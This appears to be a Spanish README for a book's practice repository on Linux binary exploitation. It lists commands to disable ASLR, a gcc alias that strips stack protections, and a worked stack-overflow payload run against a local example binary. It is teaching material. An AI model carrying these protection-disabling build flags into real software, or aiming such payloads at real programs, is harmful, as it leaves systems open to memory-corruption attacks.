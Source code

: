 # Repositorio para practicar con Linux Exploiting

Desactivar mecanismo de aleatorización de posiciones de memoria

    echo 0 > /proc/sys/kernel/randomize_va_space

Reactivar

    echo 2 > /proc/sys/kernel/randomize_va_space

```bash
setarch `arch` -R ./ejemplo argumentos
```

```bash
setarch `uname -m` -R ./ejemplo argumentos
```

## Comando para compilar los ejemplos del libro

    gcc -fno-stack-protector -D_FORTIFY_SOURCE=0 -z norelro -z execstack fichero_fuente.c -o fichero_salida

    alias gcc-exploit='gcc -fno-stack-protector -D_FORTIFY_SOURCE=0 -z norelro -z execstack'

Ver lo que ocupan las secciones de un programa ejecutable

    size ./ejemplo

Consultar el código ensamblador de un programa

    objdump -d

Buscar la función func en el código ensamblador del programa

    objdump -d ejemplo | grep func

```
vagrant@vagrant-ubuntu-trusty-32:~$ objdump -d ejemplo | grep func
0804848d <func>:
 80484f5:	e8 93 ff ff ff       	call   804848d <func>
vagrant@vagrant-ubuntu-trusty-32:~$ ./ejemplo `perl -e 'print "A"x44 . "\x8d\x84\x04\x08"x4'`

Bienvenido a Linux Exploiting AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����


Bienvenido a Linux Exploiting U���8��D$�E؉$�����E؉D$�$��x�����U�������t!�E
                                                                          �

Segmentation fault (core dumped)
```
